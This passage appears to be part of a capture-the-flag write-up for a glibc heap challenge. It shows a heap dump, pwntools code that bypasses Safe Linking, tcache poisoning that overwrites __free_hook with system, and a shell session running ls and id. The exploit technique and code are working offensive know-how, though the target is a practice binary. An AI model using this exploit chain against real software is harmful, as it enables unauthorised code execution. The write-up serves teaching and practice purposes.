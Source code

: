 Heap state : 
```
0x5620321ce6a0: 0x0000000000000000      0x0000000000000031
0x5620321ce6b0: 0x00005625501fc72e      0x00005620321ce010 //encryped pointer.
0x5620321ce6c0: 0x00005620321ce6a0      0x00005620321ce6a0
0x5620321ce6d0: 0x0000000000000000      0x0000000000000031
0x5620321ce6e0: 0x00000005620321ce      0x00005620321ce010
0x5620321ce6f0: 0x0000000000000000      0x0000000000000000
0x5620321ce700: 0x0000000000000000      0x0000000000000021
0x5620321ce710: 0x0068732f6e69622f      0x00007fc87b900c00
0x5620321ce720: 0x0000000000000000      0x00000000000003b1
0x5620321ce730: 0x00007fc87b900c00      0x00007fc87b900c00
0x5620321ce740: 0x0000000000000000      0x0000000000000000
0x5620321ce750: 0x0000000000000000      0x0000000000000000
0x5620321ce760: 0x0000000000000000      0x0000000000000000
0x5620321ce770: 0x0000000000000000      0x0000000000000000
0x5620321ce780: 0x0000000000000000      0x0000000000000000
.........................................................
.........................................................
0x5620321cead0: 0x00000000000003b0      0x0000000000000020
0x5620321ceae0: 0x0042424242424242      0x0000000000000000
0x5620321ceaf0: 0x0000000000000000      0x0000000000000441
.........................................................
```

calculating necessary addresses
```python
      system = libc_base + libc.sym.system
      hook = libc_base + libc.sym.__free_hook
```

Only one thing left which is to mask the target pointer that we want to overwrite so we bypass ``Safe Linking``. 

```python
      hook = alpha(heap_base, hook)
```

everything is read , classic ``Tcache poising attack`` now .

```python
      edit(0, p64(hook))
      add(6, 0x20, b"A" * 8)
      add(7, 0x20, p64(system))
	  free(5) // triggering the sploit.
```

and we should be good 
```
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x3b bytes:
    b'chall  chall_patched  core  ld-2.32.so\tlibc.so.6  solve.py\n'
chall  chall_patched  core  ld-2.32.so    libc.so.6  solve.py
$ id
[DEBUG] Sent 0x3 bytes:
    b'id\n'
[DEBUG] Received 0xd0 bytes:
    b'uid=1000(retr0) gid=1000(retr0) groups=1000(retr0),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),119(wireshark),122(bluetooth),134(scanner),142(kaboxer)\n'
uid=1000(retr0) gid=1000(retr0) groups=1000(retr0),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),119(wireshark),122(bluetooth),134(scanner),142(kaboxer)
$  
```
